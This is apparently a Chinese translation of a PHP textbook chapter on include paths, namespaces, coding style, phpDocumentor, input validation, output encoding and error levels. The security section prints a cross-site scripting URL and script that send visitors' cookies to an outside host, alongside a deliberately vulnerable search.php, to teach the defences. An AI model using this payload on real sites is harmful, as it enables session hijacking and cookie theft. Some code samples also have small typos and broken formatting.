为了解决这个问题，您可以使用 PHP 的 `include_path` 指令。这是一个字符串，包含要搜索以查找可包含文件的路径列表。每个路径之间用冒号（Linux 服务器上）或分号（Windows 服务器上）分隔。PATH_SEPARATOR 常量包含当前系统使用的分隔符。

路径按照它们在字符串中出现的顺序进行搜索。您可以通过调用 `get_include_path()` 函数来显示当前的 `include_path` 值（该值通常从 `php.ini` 配置文件中获取）：

```
echo get_include_path(); // Displays e.g. ".:/usr/local/lib/php"
```

在此示例中，`include_path` 指令包含两个路径：当前目录 (`.`) 和 `/usr/local/lib/php`。

要设置新的 `include_path` 值，请用——您猜对了——`set_include_path()`：

```
set_include_path( ".:/home/joe/lib" );
```

> 如刚才所示，将当前目录 (`.`) 放在包含路径的最前面是个好主意。这意味着 PHP 始终会先在当前目录中搜索所需文件，这通常就是您想要的结果。

您通常只需在应用程序开始时设置一次包含路径。设置包含路径后，您只需指定文件名即可包含路径中的任何文件：

```
include_once( "animal_functions.php" );
```

在此示例中，PHP 引擎会在当前目录中查找 `animal_functions.php`。因为那里没有，所以它会接着在 `/home/joe/lib` 中查找，并在那里找到它。

您可以通过在包含路径中创建子文件夹来组织代码库。假设您将 `animal_functions.php` 文件放入名为 `animals` 的子文件夹中。那么该文件的绝对路径将是：

`/home/joe/lib/animals/animal_functions.php`

要在脚本中包含此文件，您可以这样写，例如：

```
require( "animals/animal_functions.php" );
```

请注意，您的脚本现在更具可移植性。要将应用程序移动到路径不同的新服务器，您只需在 `set_include_path()` 调用中指定新路径即可。

顺便说一句，将新的包含路径添加到现有包含路径中，而不是替换现有路径，通常是个好主意。这意味着任何其他库文件（例如 PEAR 包）仍然可以被找到。要做到这一点，您可以使用以下代码：

```
set_include_path( get_include_path() . PATH_SEPARATOR . "/home/joe/lib" );
```

如果您需要将包含路径重置回默认设置，只需调用 restore_include_path() 即可。

## 动态包含

由于 include() 及其相关函数是 PHP 函数，您可以在 PHP 脚本的任何位置调用它们——包括在条件代码块或循环内部。例如，有时根据条件包含不同的文件很有用：

```
if ( $queryType == "animal" ) {
include( "animal_functions.php" );
} else {
include( "plant_functions.php" );
}
```

您甚至可以使用变量的值来确定要包含哪个文件。这是动态仅包含所需库文件的简便方法：

```
include( $queryType . "_functions.php" );
```

如果您这样做，请先出于安全考虑验证并清理变量的值。有关此主题的更多信息，请参见本章稍后的“检查输入和编码输出”。

## 使用命名空间避免冲突

有时您会发现，希望在同一应用程序中为不同目的使用相同的函数名、类名或常量名。如果您正在处理非常大的应用程序，或者应用程序使用了许多库，就可能发生这种情况。通常，这会导致问题，因为您不能使用相同的名称来引用多个函数、类或常量。

例如，假设您正在开发一个在线商店应用程序。您可能有一个名为 cart.php 的购物车脚本，其中带有一个 display() 函数用于显示购物车标记：

```
<?php
function display( $cart ) {
// (display the cart)
}

...

display( $_SESSION["cart"] );
?>
```

到目前为止，一切正好。现在假设您之前为另一个应用程序编写了一些结账库代码，该代码存储在 `checkout.php` 中。除了其他内容外，该文件还包含一个名为 `display()` 的函数，用于显示结账页面：

```
<?php
function display( $cartContents ) {
    // (display the checkout)
}

...

?>
```

您希望将此库文件 `checkout.php` 包含在 `cart.php` 中，以便为用户显示结账页面。您可以按照以下方式修改 `cart.php`：

```
<?php
require "checkout.php";

function display( $cart ) {
    // (display the cart)
}

if ( $_GET["action"] == "checkout" ) {
    display( $_SESSION["cart"] );
} else {
    display( $_SESSION["cart"] );
}

?>
```

不幸的是，这里存在一个问题：`cart.php` 和 `checkout.php` 都包含一个名为 `display()` 的函数。当您尝试在 `cart.php` 顶部使用 `require` 语句包含 `checkout.php` 时，PHP 引擎会生成以下错误：

> PHP 致命错误：无法重新声明 display()（之前在 cart.php:4 中声明）在 checkout.php 第 4 行

这是因为在一个脚本中不能有两个同名函数（即使这些函数最初位于不同的文件中）。此外，`cart.php` 末尾的决策代码显然毫无意义：PHP 如何知道在每种情况下应调用哪个 `display()` 函数？

从 PHP 5.3 开始，您可以使用命名空间来避免此类问题。`namespace` 是一个容器，您可以在其中放置为每个应用程序或库创建的函数名、类名和常量名。这样，您可以在不同的脚本或库中使用相同的名称，而不会有任何冲突风险。

您可以将命名空间视为类似于文件系统中的文件夹：在同一文件夹中不能有两个名为 myfile.txt 的文件，但可以在一个文件夹中有一个 myfile.txt，在另一个文件夹中有一个不同的 myfile.txt。

在 PHP 中创建命名空间时，请使用 namespace 关键字，后跟命名空间名称：

```
<?php
namespace MyLibrary;

myFunction() {
    ...
}

// rest of script here
?>
```

命名空间声明必须是脚本中紧随开头 <?php 标签之后的第一行。此外，<?php 标签之前不能出现任何字符（因此例如无法在 PHP 代码之前放置 HTML 标记）。

在脚本顶部声明命名空间后，该脚本中的所有代码都属于该命名空间。

> 尽管您理论上可以在单个脚本文件中声明多个命名空间，但这不是良好的编码实践。

如果要使用在同一命名空间中定义的类、函数或常量，只需正常编写其名称：

```
$result = myFunction();
```

要从命名空间外部使用命名空间中的类、函数或常量，请编写命名空间名称，后跟反斜杠 (\)，再跟类名、函数名或常量名：

```
$result = MyLibrary\myFunction();
```

您现在了解了使购物车和结账正常工作所需的所有知识。以下是修订后的 checkout.php：

```
<?php
namespace Checkout;

function display( $cartContents ) {
    // (display the checkout)
}
?>


你可以看到，checkout 库现在有了自己的命名空间 Checkout。以下是新的 cart.php 脚本：

```php
<?php
require "checkout.php";

function display( $cart ) {
    // (display the cart)
}

if ( $_GET["action"] == "checkout" ) {
    Checkout\display( $_SESSION["cart"] );
} else {
    display( $_SESSION["cart"] );
}
?>
```

现在，cart.php 通过以下方式调用 checkout.php 中定义的 display() 函数：

```php
Checkout\display( $_SESSION["cart"] );
```

同时，它通过简单地使用以下方式调用 cart.php 本身中定义的 display() 函数：

```php
display( $_SESSION["cart"] );
```

得益于使用命名空间，两个 display() 函数的名称不再冲突。

你还可以创建子命名空间，就像文件系统中的子文件夹一样。这允许你创建命名空间层次结构。你用反斜杠字符分隔每个命名空间级别。例如，以下代码在 MyStore 命名空间内声明了 Checkout 命名空间：

```php
<?php
namespace MyStore\Checkout;

...  ?>
```

你可以使用相对表示法指定命名空间，就像使用相对路径一样。

例如，要从位于 MyStore 命名空间内的代码中调用 MyStore\Checkout\display()，你可以这样写：

```php
<?php
namespace MyStore;
require "checkout.php";
Checkout\display( $_SESSION["cart"] );
?>
```

要在不相关的命名空间内使用带命名空间的类、函数或常量，需要在命名空间名称开头添加反斜杠，以便 PHP 知道你不是试图使用相对表示法：

```php
<?php
namespace AnotherNamespace;
require "checkout.php";
\MyStore\Checkout\display( $_SESSION["cart"] );
?>
```

如果你在处理大型命名空间层次结构，每次都指定完整的命名空间名称可能会很麻烦：

```php
<?php
require "checkout.php";
MyWebsite\MyStore\FrontEnd\Checkout\display( $_SESSION["cart"] );
?>
```

为了解决这个问题，你可以使用命名空间别名，它的工作方式类似于 UNIX 文件系统中的符号链接。要创建别名，请编写：

```
use namespace as alias;
```

创建别名后，你可以用它代替完整的命名空间名称。例如：

```php
<?php
require "checkout.php";
use MyWebsite\MyStore\FrontEnd\Checkout as MyCheckout;
MyCheckout\display( $_SESSION["cart"] );
?>
```

你可以省略 as 语句（以及后面的名称），在这种情况下，use 语句使用命名空间名称的最后一部分作为别名。因此，以下两行代码是等价的：

```
use MyWebsite\MyStore\FrontEnd\Checkout;
use MyWebsite\MyStore\FrontEnd\Checkout as Checkout;
```

除了函数，你还可以将命名空间与类和常量一起使用。以下 checkout.php 脚本在 Checkout 命名空间内定义了一个常量和一个类：

```php
<?php
namespace Checkout;
const DEFAULT_COUNTRY = "US";

class AddressBook {
    function addEntry() {
        echo "Address added";
    }
}
?>
```

同时，此脚本访问该常量和类：

```php
<?php
require "checkout.php";
echo Checkout\DEFAULT_COUNTRY . "<br />"; // Displays "US"
$ab = new Checkout\AddressBook();
$ab->addEntry(); // Displays "Address added"
?>
```

命名空间可能相当复杂，本节仅触及了该主题的表面。很可能，除非你在处理大型项目或使用大量外部库，否则不需要大量使用命名空间。如果需要了解命名空间工作原理的更多详细信息，请参阅 http://www.php.net/manual/en/language.namespaces.php 上的 PHP 手册。

## 使用编码规范保持一致性

编码规范——也称为编码惯例或编码风格——可确保你的代码格式一致。这反过来使你的代码更易于阅读和维护，这意味着你（和其他开发人员）将更容易使用你的应用程序。你会注意到，本书中的大多数代码示例都使用一致的编码风格以帮助阅读。

请注意，编码规范不影响代码的运行方式；它们仅规定代码的外观。

编码规范涵盖代码布局和命名惯例的各个方面，例如：

- **如何缩进代码块：** 你可以使用空格或制表符字符来缩进代码块中的每行代码。空格更具可移植性，因为它们独立于编辑器的制表符宽度设置。本书对每个缩进级别使用两个空格

- **花括号放在哪里：** 有些人将左花括号放在引入代码块或函数的行末——这是本书使用的样式：

    ```php
    if ( $queryType == "animal" ) {
    	include( "animal_functions.php" );
    }
    ```

    其他人将花括号单独放在下一行：

    ```php
    if ( $queryType == "animal" )
    {
    	include( "animal_functions.php" );
    }
    ```

- **在函数调用中何时使用空格：** 本书倾向于在函数参数周围使用空格，但在函数名和左括号之间不使用空格：
    `include( "animal_functions.php" );`

- **如何格式化控制流结构：** 本书在条件的括号内部和周围使用空格：
    `if ( $queryType == "animal" ) {`

- **如何命名标识符：** 一种常见的命名技术是在标识符内使用下划线分隔单词（`variable_name` 或 `CONSTANT_NAME`）；这有时被称为“C风格”，因为这是 C 编程中常用的惯例。另一种常见的技术是在标识符内将每个单词（包括，可选地，第一个单词）的首字母大写（`VariableName` 和 `variableName`）；这些惯例分别通常称为大驼峰式和小驼峰式。本书使用：
    - 类名使用大驼峰式（MyClass）
    - 函数、方法和变量名使用小驼峰式（myMethod() 和 $myVariable）
    - 常量名使用带下划线的大写（MY_CONSTANT）
    - 预定义文本值使用小写（true、false、null）

你可以发明自己的编码规范（如果有帮助，可以将其正式写下来），也可以采用现有的标准。常见标准包括：

- PEAR 编码规范：http://pear.php.net/manual/en/standards.php
- Sun Java 代码约定：http://java.sun.com/docs/codeconv/
- GNU 编码规范：http://www.gnu.org/prep/standards/

无论你是使用现成的标准还是创建自己的标准都不重要。重要的是，一旦你采用了某个标准，就应该将其一致地应用于所有 PHP 代码。

## 记录你的代码

为你的代码编写良好的文档需要自律，但这是构建高质量应用程序的重要方面。虽然你未记录文档的代码在编写时完全合理，但代码往往在你六个月后再次查看时会变得难以理解。而且，如果其他开发人员需要处理你未记录文档的代码，他们将很难弄明白它应该做什么。

记录 PHP 代码的主要方式是在代码中添加注释。到现在你可能知道，在 PHP 中可以创建两种类型的注释：

- 单行注释：以两个斜杠（//）或井号（#）开头。
- 多行注释：以 /* 开头，以 */ 结尾。

### 编写良好注释

编写注释很简单，但如何编写良好注释呢？首先，注释需要解释一段代码做什么（或打算做什么）。但是，不要陈述显而易见的事情。以下是错误注释的示例：

```php
for ( $i=0; $i < count( $users ); $i++ ) { // Loop from 0 to count($users) - 1
    $users[$i]->insert(); // Call the insert() method for the user
}
```

所有这些注释都只是重复了从阅读代码本身就显而易见的事情；它们没有为代码增加额外含义。以下注释将更有用：

```php
// Insert all the users into the database
for ( $i=0; $i < count( $users ); $i++ ) {
    $users[$i]->insert();
}
```

此注释让读者了解代码试图做什么的更高层次的画面。

改善注释的另一种方法是对其进行格式化以提高可读性。在注释开始前添加一个空行（注释后面也可能添加一个）；在使用内联注释时，在 // 后面添加一个空格；并在各行上对齐内联注释。考虑以下格式不良的注释：

```php
//Retrieve all users
$users = User::getAll();
/* Add all the users to the database.
Each user's modification time is updated
before the user is added.
*/
for ( $i=0; $i < count( $users ); $i++ ) {
    $users[$i]->updateModDate(); //Set the modification time
    $users[$i]->insert(); //Insert the user
}
```

你可以看出，要分辨脚本哪些部分是注释、哪些部分是代码相当困难。以下是改进后的版本：


// Retrieve all users
$users = User::getAll();

/*
Add all the users to the database.
Each user's modification time is updated
before the user is added.
*/
for ( $i=0; $i < count( $users ); $i++ ) {
    $users[$i]->updateModDate(); // Set the modification time
    $users[$i]->insert(); // Insert the user
}

在注释周围添加水平和垂直空间，并对齐两个行内注释后，代码的可读性将大大提高。

另一个良好的注释策略是在编写代码的同时编写注释，而不是事后补写。在这个阶段编写注释更容易，因为代码在你脑海中还很新鲜。此外，由于你的注释描述了代码的意图，在编码时编写注释会鼓励你更多地思考你正在编写那个特定代码块的方式和原因。事实上，为了多一分自律，尝试在编写代码之前编写注释！

除了添加大量有用的注释来提高代码的可读性之外，你还可以通过使用有意义的变量、函数和方法名来进一步改进。以下代码足够清晰，不需要任何注释：

```
$jim = new User();
$jim->setFirstName( "Jim" );
$jim->setLastName( "Smith" );
$jim->addToDatabase();
```

## 使用 phpDocumentor 生成外部文档

虽然代码内注释很有用，但如果文档与代码文件分开，开发人员更容易获得应用程序的更高层次概览。

phpDocumentor 是一个 PEAR 包，它可自动生成外部文档文件。它会读取你的 PHP 脚本文件，并使用代码中的注释来生成文档。通过以特定方式格式化你的注释，你可以向 phpDocumentor 提供关于代码的额外信息，例如每个变量的作用域和数据类型，以及变量、函数和类之间的关系。

你安装 phpDocumentor 就像安装其他 PEAR 包一样（有关安装 PEAR 包的更多详细信息，请参见第 15 章）：

```
$ pear install --alldeps phpDocumentor
downloading PhpDocumentor-1.4.2.tgz ...
Starting to download PhpDocumentor-1.4.2.tgz (2,421,028 bytes)
............................................................
............................................................
............................................................
............................................................
............................................................
............................................................done: 2,421,028 bytes
downloading XML_Beautifier-1.2.0.tgz ...
Starting to download XML_Beautifier-1.2.0.tgz (12,948 bytes)
...done: 12,948 bytes
downloading XML_Parser-1.3.2.tgz ...
Starting to download XML_Parser-1.3.2.tgz (16,260 bytes)
...done: 16,260 bytes
downloading XML_Util-1.2.1.tgz ...
Starting to download XML_Util-1.2.1.tgz (17,729 bytes)
...done: 17,729 bytes
install ok: channel://pear.php.net/PhpDocumentor-1.4.2
install ok: channel://pear.php.net/XML_Parser-1.3.2
install ok: channel://pear.php.net/XML_Util-1.2.1
install ok: channel://pear.php.net/XML_Beautifier-1.2.0
$
```

你可以通过命令行使用 phpdoc 命令运行 phpDocumentor，如下所示：

```
$ phpdoc -o HTML:frames:earthli -f /home/joe/htdocs/myscript.php -t /home/joe/docs
```

此命令告诉 phpDocumentor：

- [ ] 以 HTML 格式输出文档
- [ ] 使用“frames”转换器
- [ ] 使用“earthli”模板
- [ ] 读取 PHP 脚本文件 /home/joe/htdocs/myscript.php 中的注释
- [ ] 将生成的文档保存在 /home/joe/docs

phpdoc 支持多种不同的选项。例如，你可以使用 -d 指定要读取的整个目录，而不是单个脚本文件。你还可以将文档输出为 PDF 或 XML 格式。有关选项的完整列表，请访问 http://manual.phpdoc.org/HTMLSmartyConverter/PHP/phpDocumentor/tutorial_phpDocumentor.howto.pkg.html#using.command-line。

如果你愿意，可以使用 phpDocumentor 的 Web 界面，而不是命令行界面。有关安装和使用 Web 界面的更多详细信息，请参见 http://manual.phpdoc.org/HTMLSmartyConverter/PHP/phpDocumentor/tutorial_phpDocumentor.howto.pkg.html。

在你的 PHP 脚本中，你以文档块（或 DocBlock）的形式添加供 phpDocumentor 解析的注释。DocBlock 具有以下格式：

```
/**
 * Here's a comment line.
 * Here's another comment line.
 */
```

例如，在函数（或方法）定义之前放置一个 DocBlock 来描述该函数：

```
/**
 * Returns HTML markup to render the supplied text in bold type.
 */
function makeBold( $text ) {
 return "<b>$text</b>";
}
```

在 DocBlock 中，你可以使用各种标签来微调生成的文档。标签以 @（at）符号开头。例如，你可以使用 @param 标签来提供关于函数参数的更多信息：

```
/**
 * Returns HTML markup to render the supplied text in bold type.
 *
 * @param string The text to make bold
 */
function makeBold( $text ) {
 return "<b>$text</b>";
}
```

在此处，$text 参数的数据类型和描述包含在 DocBlock 中。

你可以使用 @var 标签来描述变量和属性：

```
/**
 * @var string Full name of the user, eg 'JohnSmith'
 */
public $fullName = null;
```

另一个重要的标签是 @package。它让你可以在单个包名称下对文件和类进行分组：

```
/**
 * Class to represent a forum user.
 * @package WebForums
 */
class User {
 // (class code here)
}
```

这只是 phpDocumentor 标签、功能和选项的一小部分。有关更多详细信息，请参阅 http://manual.phpdoc.org/ 上的在线文档。

## 尝试一下：让 phpDocumentor 运转起来

尝试这个示例，以温和地介绍 phpDocumentor。以下脚本是第 8 章中 car_simulator.php 的修改版本。将其保存为文档根文件夹中的 car_simulator_documented.php。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>A Simple Car Simulator</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>A Simple Car Simulator</h1>

<?php
/**
 * Car simulation example
 *
 * This script demonstrates how to use OOP to create a simple
 * simulation of a car.
 * @Author Matt Doyle
 * @version 1.0
 * @package CarSimulator
 */

/**
 * Represents a real-world automobile
 *
 * This class represents an automobile. The automobile can have
 * a specified color, manufacturer, and model. Methods are provided
 * to accelerate and slow down the car, as well as retrieve the
 * car's current speed.
 *
 * @package CarSimulator
 */
class Car {
/**
 * @var string The car's color
 */
public $color;

/**
 * @var string The car's manufacturer
 */
public $manufacturer;

/**
 * @var string The model of the car
 */
public $model;

/**
 * @var string The current speed of the car
 * @access private
 */
private $_speed = 0;

/**
 * Speeds up the car
 *
 * Accelerates the car by 10mph, up to a maximum speed of 100mph.
 * @return boolean True if the car was successfully accelerated; false
otherwise
*/
public function accelerate() {
    if ( $this->_speed >= 100 ) return false;
    $this->_speed += 10;
    return true;
}

/**
 * Slows down the car
 *
 * Decelerates the car by 10mph, down to a minimum speed of 0mph.
 * @return boolean True if the car was successfully decelerated; false
otherwise
*/
public function brake() {
    if ( $this->_speed <= 0 ) return false;
    $this->_speed -= 10;
    return true;
}

/**
 * Returns the car's speed
 *
 * Returns the current speed of the vehicle, in miles per hour
 * @return int The car's speed in mph
*/
public function getSpeed() {
    return $this->_speed;
}
}

$myCar = new Car();
$myCar->color = "red";
$myCar->manufacturer = "Volkswagen";
```


```php
$myCar->model = "Beetle";

echo "<p>I'm driving a $myCar->color $myCar->manufacturer $myCar->model.
</p>";

echo "<p>Stepping on the gas...<br />";

while ( $myCar->accelerate() ) {
    echo "Current speed: " . $myCar->getSpeed() . " mph<br />";
}

echo "</p><p>Top speed! Slowing down...<br />";

while ( $myCar->brake() ) {
    echo "Current speed: " . $myCar->getSpeed() . " mph<br />";
}

echo "</p><p>Stopped!</p>";

?>
</body>
</html>
```

接下来，按照本节前面的说明安装 phpDocumentor（如果尚未安装）。现在打开命令提示符（Windows）或终端窗口（Mac 或 Ubuntu），切换到您的文档根文件夹，然后键入：

```
phpdoc -o HTML:frames:earthli -f car_simulator_documented.php -t docs
```

如果您在 Windows 上运行，可能需要键入 phpdoc 的完整路径（例如，c:\wamp\bin\php\php5.2.6\phpdoc）。

您应该会看到几行输出，结尾类似于：

```
Parsing time: 0 seconds

Conversion time: 1 seconds

Total Documentation Time: 1 seconds
Done
```

现在在文档根目录下新创建的 `docs` 文件夹中找到 `index.html` 文件。在 Web 浏览器中打开此文件。您应该会看到一个页面，左侧有一系列链接。尝试单击列表中“类”部分的“汽车”链接。您应该会看到类似图 20-1 的页面。


图 20-1

## 工作原理

除了添加的注释外，此脚本与第 8 章中的 car_simulator.php 脚本相同。第一个 DocBlock 描述了脚本文件的内容：

```
/**
 * Car simulation example
 *
 * This script demonstrates how to use OOP to create a simple
 * simulation of a car.
 *
 * @author Matt Doyle
 * @version 1.0
 * @package CarSimulator
 */
```

DocBlock 的第一行是简短描述。这通常在最终文档中用作标题。简短描述后是一个空行（以星号开头），然后是详细描述。详细描述之后，三个标签提供了关于脚本文件的更多信息，包括作者、版本以及脚本所属包的名称。

第二个 DocBlock 描述了 `Car` 类本身：

```
/**
 * Represents a real-world automobile
 *
 * This class represents an automobile. The automobile can have
 * a specified color, manufacturer, and model. Methods are provided
 * to accelerate and slow down the car, as well as retrieve the
 * car's current speed.
 *
 * @package CarSimulator
 */
```

与前一个 DocBlock 一样，此 DocBlock 包含简短描述、详细描述和 `@package` 标签，用于指定类所属的包。

在类中，每个属性和方法都有单独的 DocBlock 描述。例如，私有 `$_speed` 属性的文档如下：

```
/**
 * @var string The current speed of the car
 * @access private
 */
private $_speed = 0;
```

`@var` 标签允许您指定变量的数据类型。由于 PHP 是弱类型语言，这是一种有用的方法，可以提醒您自己（以及其他开发人员）每个变量的预期类型。

还要注意，`$_speed` 属性的 DocBlock 有一个 `@access private` 标签。这告诉 phpDocumentor 该属性是私有的，不应包含在标准文档中。

> 您可以使用 --parseprivate 选项来让 phpDocumentor 也记录私有代码。如果您需要为修改类的开发人员（而非仅使用类的开发人员）生成文档，这很有用。

这是 `getSpeed()` 方法的 DocBlock：

```
/**
 * Returns the car's speed
 *
 * Returns the current speed of the vehicle, in miles per hour
 *
 * @return int The car's speed in mph
 */
public function getSpeed() {
    return $this->_speed;
}
```

此 DocBlock 包含简短描述、详细描述和 `@return` 标签。该标签描述方法的返回值，并指定其数据类型。

尝试浏览您之前生成的文档页面，看看每个 DocBlock 如何影响 phpDocumentor 的输出。

## 检查输入和编码输出

本书的许多章节都强调了编写 PHP 应用程序时安全性的重要性。Web 应用程序攻击非常常见，如果您编写了一个包含安全漏洞的流行应用程序，那么这些漏洞被利用只是时间问题。攻击者随后可以利用您的应用程序做各种恶意的事情，包括（但不限于）：

- 获取用户名、密码、会话和 Cookie 的访问权限
- 修改或删除数据库中的数据
- 更改您的 Web 站点内容（例如篡改您的主页）
- 在 Web 服务器上运行外部应用程序或操作文件（例如 /etc/passwd）
- 接管托管您应用程序的整个 Web 服务器

因此，消除或防止应用程序中的安全漏洞是合理的。Web 应用程序中的绝大多数漏洞是由以下一项（或两项）引起的：

- 未正确检查输入到应用程序的数据
- 未正确对应用程序输出（通常是显示的 Web 页面）中的数据进行编码

以下是一个名为 search.php 的不安全 PHP 脚本的简单示例：

```
<?php
$searchQuery = $_GET['search'];
echo "You searched for: $searchQuery";
// (display search results here)
?>
```

此搜索引擎脚本从 search 参数中读取用户提供的搜索文本，然后在页面中重新显示搜索文本（后跟搜索结果）。例如，如果脚本使用以下 URL 调用：

```
http://localhost/search.php?search=monkeys
```

脚本将显示以下内容：

```
You searched for: monkeys
```

到目前为止一切正常。但是，如果将以下 URL 传递给脚本，会怎样？

```
http://localhost/search.php?search=%3Cscript%3Edocument.location.href%3D%27http%3A%2F%2Fwww.example.com%3Fstolencodeokies%3D%27%2Bdocument.cookie%3C/script%3E
```

此 URL 可能来自攻击者发送给访问者的电子邮件。如果访问者单击链接，脚本将向浏览器输出以下标记：

```
You searched for: <script>document.location.href='http://www.example
.com?stolencodeokies=' + document.cookie</script>
```

在这个示例中，链接中的查询字符串包含一些恶意 JavaScript 代码（使用 URL 编码）。搜索引擎脚本乖巧地将查询字符串的内容（即恶意 JavaScript）包含在生成的 Web 页面标记中。假设访问者的浏览器已启用 JavaScript，这将导致浏览器重定向到 www.example.com 上的服务器端脚本，并将访问者与原始站点关联的所有 Cookie 传递给该脚本。然后，www.example.com 的所有者将能够访问与原始站点相同的所有访问者 Cookie。例如，这可能允许他们冒充访问者或劫持访问者的登录会话。这种攻击通常称为跨站点脚本（XSS）攻击。

显然，此安全漏洞是由于用户输入（查询字符串）在未检查或对提供的数据进行编码的情况下直接发送到浏览器所致。

*其他常见的攻击类型包括 SQL 注入（第 13 章介绍）和 CSRF（跨站点请求伪造）攻击。有关 CSRF 攻击的更多信息，请访问 http://en.wikipedia.org/wiki/Cross-site_request_forgery。*

### 检查输入

您的脚本在使用所有外部输入之前都应对其进行检查。这包括查询字符串、Cookie 和表单提交中的数据；从读取其他 Web 页面检索的数据；存储在文件和数据库表中的数据，等等。

例如，可以通过检查用户提供的查询字符串的内容来堵住先前显示的安全漏洞：

```php
<?php

$searchQuery = $_GET['search'];

if ( !preg_match( "/^[a-zA-Z0-9]*$/", $searchQuery ) ) {
    echo "Invalid input: please use only letters and digits";
    exit;
}

echo "You searched for: " . $searchQuery;
// (display search results here)

?>
```

在这里，使用正则表达式，如果查询字符串包含除字母和数字以外的任何内容，则终止脚本。（在实际应用程序中，您可能会重新显示搜索表单，提示用户再试一次。）

此技术称为*白名单法*，因为您只接受与白名单匹配的字符（在此例中为字母和数字）。或者，您可以使用*黑名单法*，即拒绝在黑名单上的字符：

```php
if ( preg_match( "/[<>&#]/", $searchQuery ) ) {
    echo "Invalid input: please don't use <lt; &gt;, &amp; or &";
    exit;
}
```


通常来说，如果可能，最好使用白名单，因为它比黑名单更安全。使用黑名单时，很容易忘记将某个特定的恶意字符包含在黑名单中，从而创造出潜在的安全漏洞。然而，有时使用白名单根本不可能或不切实际，在这种情况下，黑名单是最佳方法。

虽然正则表达式在检查输入方面为你提供了很大的灵活性，但你可以使用其他技术来简化工作。例如，HTML::QuickForm（在第15章中介绍）允许你创建和使用规则来验证从Web表单发送的输入。你还可以使用诸如PEAR Validate包（参见 http://pear.php.net/package/Validate）之类的库来验证日期、电子邮件地址、URL等输入。

验证输入的一种替代方法是过滤。采用这种方法，你不需要检查用户输入是否包含恶意数据（如果包含则拒绝），只需从输入中删除任何恶意数据，然后照常进行：

```php
<?php
$searchQuery = $_GET['search'];
$searchQuery = preg_replace( "/[^a-zA-Z0-9]/", "", $searchQuery );
echo "You searched for: " . $searchQuery;
// (display search results here)
?>
```

在此示例中，在使用查询字符串之前，会从中删除任何不是字母或数字的字符。当提供先前的恶意查询字符串时，脚本会生成以下输出：

```
You searched for:
scriptdocumentlocationhrefhttpwwwexamplecomstolenecookiesdocumentcookiescript
```

过滤的一种变体是使用强制类型转换来确保输入为所需类型：

```php
$pageStart = (int) $_GET["pageStart"];
```

从用户的角度来看，过滤通常更友好，因为他们不必处理错误消息或重新输入数据。然而，由于应用程序会静默删除数据，这也可能导致用户困惑。

## 对输出进行编码

除了验证或过滤脚本的所有输入之外，对脚本的输出进行编码也是个好主意。这有助于防止跨站点脚本攻击，例如之前所示的攻击。

采用这种方法，你可以使用输出格式提供的任何转义机制，对任何潜在的不安全字符进行编码或转义。由于你通常输出的是HTML，可以使用PHP的htmlspecialchars()函数将不安全字符替换为其编码等价物：

```php
<?php
$searchQuery = $_GET['search'];
echo "You searched for: " . htmlspecialchars( $searchQuery );
// (display search results here)
?>
```

使用先前显示的恶意查询字符串运行此代码时，该代码会输出以下标记：

```
You searched for: &lt;script&gt;document.location.href='http://www.example.com?stolencookies=' + document.cookie&lt;/script&gt;;
```

这会导致浏览器在页面中简单地显示恶意JavaScript，而不是运行它：

```
You searched for: <script>document.location.href='http://www.example.com?stolencookies=' + document.cookie</script>
```

虽然通过检查输入和编码输出无法堵塞每一个安全漏洞，但养成这个好习惯可以大幅减少攻击者利用PHP应用程序的方式。

## 处理错误

大多数情况下，你的应用程序会按预期运行。然而，偶尔会出问题，导致错误。例如：

- 用户可能在表单字段中输入无效值
- Web服务器可能磁盘空间不足
- 应用程序需要读取的文件或数据库记录可能不存在
- 应用程序可能没有权限写入磁盘上的文件
- 应用程序需要访问的服务可能暂时不可用

> 这类错误被称为运行时错误，因为它们发生在脚本运行时。它们与语法错误不同，语法错误是编程错误，必须在脚本运行之前修复。

如果你的应用程序编写良好，它应该以优雅的方式处理错误条件，无论错误是什么。这通常意味着清晰准确地向用户（以及可能的开发者）说明问题。

在本节中，你将学习如何使用PHP的错误处理函数以及`Exception`对象，来优雅地处理错误条件。

## 理解错误级别

通常，当存在阻止脚本正常运行的问题时，PHP引擎会触发一个错误。有15种不同的错误级别（即类型），每个级别都由一个整数值和相关常量表示。以下是错误级别列表：

| 错误级别 | 值 | 描述 |
|---|---|---|
| E_ERROR | 1 | 无法恢复的致命运行时错误。脚本立即停止运行 |
| E_WARNING | 2 | 运行时警告（大多数错误都属于此类别）。虽然脚本可以继续运行，但已发生可能在今后造成问题的情况（例如除以零或尝试读取不存在的文件） |
| E_PARSE | 4 | 由于解析脚本出现问题（例如语法错误），脚本无法运行 |
| E_NOTICE | 8 | 这可能表示错误，尽管在正常运行期间也可能出现这种情况 |
| E_CORE_ERROR | 16 | PHP引擎启动期间发生致命错误 |
| E_CORE_WARNING | 32 | PHP引擎启动期间发生非致命错误 |
| E_COMPILE_ERROR | 64 | 脚本编译期间发生致命错误 |
| E_COMPILE_WARNING | 128 | 脚本编译期间发生非致命错误 |
| E_USER_ERROR | 256 | 与E_ERROR相同，但由脚本而非PHP引擎触发（参见“触发错误”） |
| E_USER_WARNING | 512 | 与E_WARNING相同，但由脚本而非PHP引擎触发（参见“触发错误”） |
| E_USER_NOTICE | 1024 | 与E_NOTICE相同，但由脚本而非PHP引擎触发（参见“触发错误”） |
| E_STRICT | 2048 | 并非严格意义上的错误，但每当PHP遇到可能导致问题或不兼容的代码时都会触发 |
| E_RECOVERABLE_ERROR | 4096 | 尽管错误是致命的，但并未使PHP引擎处于不稳定状态。如果你使用了自定义错误处理程序，它可能仍能解决问题并继续运行 |
| E_DEPRECATED | 8192 | 关于未来PHP版本中将无法工作的代码的警告 |
| E_USER_DEPRECATED | 16384 | 与E_DEPRECATED相同，但由脚本而非PHP引擎触发（参见“触发错误”） |

默认情况下，只有致命错误会导致脚本停止运行。然而，你可以通过创建自己的错误处理程序来控制脚本在不同错误级别下的行为（将在后文“让脚本处理错误”部分中介绍）。

## 触发错误

尽管PHP引擎在遇到脚本问题时会触发错误，但你也可以自己触发错误。这有助于使你的应用程序更加健壮，因为它可以在潜在问题演变成严重错误之前将其标记出来。这也意味着你的应用程序可以生成更友好的错误消息。

要在脚本中触发错误，请调用`trigger_error()`函数，并传入要生成的错误消息：

```php
trigger_error ( "Houston, we've had a problem." );
```

